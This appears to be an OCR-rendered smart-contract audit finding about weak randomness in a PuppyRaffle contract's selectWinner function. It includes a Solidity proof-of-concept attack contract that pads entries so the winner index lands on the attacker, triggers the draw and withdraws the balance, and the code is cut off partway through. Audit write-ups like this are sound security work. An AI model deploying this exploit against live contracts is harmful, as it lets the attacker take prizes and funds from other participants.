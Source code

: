 ### [H-1] Weakness in Pseudorandom Number Generator (PRNG) Algorithm within `PuppyRaffle::selectWinner` Compromises Winner Selection

**Description**: The vulnerability lies in the utilization of a weak PRNG, specifically through a modulo operation on `block.timestamp`, `now`, or `blockhash` within the `PuppyRaffle::selectWinner` function. These sources are susceptible to manipulation by miners, introducing a potential security risk.

**Impact**: Exploitation of the weak PRNG can be attempted by players, allowing them to influence the selection process. If successful, this manipulation could lead to undesired outcomes, such as a user becoming the winner through unauthorized means.

**Proof of Concept:**

1. Develop a new contract to exploit the weakness in randomness.

```js
contract WeakRandomnessContract {
    PuppyRaffle immutable target;
    uint256 immutable entranceFee;
    // prevent duplicate from entered players used in testing
    uint256 constant START_PLAYERS = 100;

    constructor(address _target) {
        target = PuppyRaffle(_target);
        entranceFee = PuppyRaffle(_target).entranceFee();
    }

    function getParameters(uint256 playersLength) external view returns (address[] memory, uint256) {
        uint256 winnerIndex;
        uint256 addPlayers = playersLength;
        while (true) {
            winnerIndex =
                uint256(keccak256(abi.encodePacked(address(this), block.timestamp, block.difficulty))) % addPlayers;
            if (winnerIndex == playersLength) break;
            addPlayers++;
        }
        uint256 loop = addPlayers - playersLength;
        address[] memory newPlayers = new address[](loop);
        newPlayers[0] = address(this);
        for (uint256 i = 1; i < loop; i++) {
            newPlayers[i] = address(START_PLAYERS + i);
        }
        uint256 fees = entranceFee * loop;
        return (newPlayers, fees);
    }

    function attack(address[] memory newPlayers) external payable {
        target.enterRaffle{value: msg.value}(newPlayers);
        target.selectWinner();
    }

    function withdraw(address to) external {
        (bool success,) = to.call{value: address(this).balance}("");
        require(success, "transfer failed");
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data)
        public
        returns (bytes4)
    {
        return this.onERC721Received.selector;
```